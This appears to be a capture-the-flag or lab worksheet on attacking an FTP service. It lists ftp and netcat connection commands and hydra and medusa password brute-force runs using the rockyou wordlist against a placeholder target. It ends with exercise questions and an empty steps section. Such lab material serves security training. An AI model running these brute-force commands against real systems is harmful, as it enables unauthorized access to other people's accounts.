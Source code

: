 ```
ftp $TARGET_IP
```
```
nc -v $TARGET_IP $PORT
```
```
hydra -L users.list -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP
```
```
hydra -l $USERNAME -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP
```
```
medusa -u $USERNAME -P /usr/share/wordlists/rockyou.txt -h $TARGET_IP -M ftp
```

## Questions:
1. What port is the FTP service running on? 

2. What username is available for the FTP server? 

3. Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer. 

## Steps:
1. 